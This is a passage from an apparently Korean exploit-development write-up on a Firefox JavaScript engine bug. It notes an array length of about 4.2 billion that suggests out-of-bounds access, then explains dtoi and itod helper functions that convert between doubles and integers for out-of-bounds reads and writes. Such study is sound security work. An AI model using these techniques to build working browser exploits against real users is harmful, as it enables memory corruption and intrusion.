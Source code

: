 length 값이 42억으로 나온걸 봐선 unsigned int인 듯 하다. 그리고 undefined는 배열의 요소가 있었던 자리였는데, pop을 통해 뺐기 때문에 뜨는 것이다.  그 이후에 소수가 막 나오다가 3, 4가 나오는데 b 배열의 요소 값일 것이다.



<hr />

## 데이터 읽기

기본적으로 파이어폭스에서는 `jsval`을 `double`로 표현하는데 array를 통해서 `oob read` 및 `oob write`를 하기 위해선 double 데이터를 int로, int를 double 데이터로 바꿀 수 있어야 할 것이다.



그래서 dtoi 함수와 itod 함수를 만들었고 `dtoi` 부터 보겠다.

```javascript
function dtoi(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer, 0, 8);

	f[0] = data;
	
	res = "";
	for (var i = 0; i < bytes.length; i++)
		res += ('0' + bytes[bytes.length - 1 - i].toString(16)).substr(-2);

	return parseInt(res, 16);
}
```

먼저 `Float64Array 하나`와 `Uint8Array 8개`를 만들었는데, 숫자를 보면 알겠지만 Float는 8byte고 Uint는 1byte 배열이다. **Uint64Array 한개가 아니라 Uint8Array 8개인 이유는 리틀 엔디안으로 바꿔야하기 때문**이다.



그 후에 정렬해서 16진수 문자열 형태로 만들고 `parseInt`로 int로 만들면 된다.



이제 `itod`를 보겠다.

```javascript

function itod(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer);

	var res = [];
	var hexed = ('0000000000000000' + data.toString(16)).substr(-16);
	for (var i = 0; i < 16; i+=2)
		res.push(parseInt(hexed.substr(i, 2), 16));
	
	bytes.set(res.reverse());
	return f[0];	
}
```
